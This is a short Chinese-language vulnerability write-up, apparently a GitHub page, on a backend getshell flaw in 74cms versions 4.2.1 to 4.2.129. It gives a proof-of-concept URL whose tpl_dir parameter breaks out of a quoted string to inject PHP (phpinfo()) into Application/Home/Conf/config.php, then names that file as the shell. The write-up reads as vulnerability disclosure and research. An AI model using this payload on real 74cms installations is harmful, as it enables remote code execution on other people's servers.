



# 74cms v4.2.1 v4.2.129 后台getshell漏洞

## 漏洞描述

厂商：74cms
下载地址：http://www.74cms.com/download/index.html
关于版本：
新版的74cms采用了tp3.2.3重构了，所以可知底层是tp，74cms新版升级是后台升级的，所以先将将升级方法。
注：此漏洞不用升级至最新版本也可使用。

## 漏洞复现

### 74cms升级到最新版

1， 先去官网下载 骑士人才系统基础版(安装包)
2， 将下载好的包进行安装
3， 进入后台点击查看如果不是最新版的话，请点击升级！
4， 如果是本地环境的话，会提示 域名不合法升级失败，这个问题很好解决
5， 搜索文件74cms\upload\Application\Admin\Controller\ApplyController.class.php
6， 查找所有$_SERVER['HTTP_HOST'] 改为 http://baidu.com 即可

### 漏洞演示



url:

```
 http://74cms.test/index.php?m=Admin&c=Tpl&a=set&tpl_dir= ', 'a',phpinfo(),'
```

shell:

```
http://74cms.test/Application/Home/Conf/config.php
```

路径：

```
\74cms\upload\Application\Home\Conf\config.php
```



